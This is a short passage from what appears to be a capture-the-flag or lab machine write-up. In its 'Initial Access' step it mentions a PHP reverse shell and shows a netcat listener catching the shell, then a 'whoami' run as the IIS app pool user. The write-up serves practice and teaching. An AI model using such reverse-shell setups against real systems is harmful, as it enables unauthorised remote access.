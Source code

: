 ![](../assets/Pasted%20image%2020250612174431.png)

## Initial Access

Now do the same but with a PHP reverse shell.

```shell
$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.151] 49680
SOCKET: Shell has connected! PID: 7080
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
iis apppool\defaultapppool
```
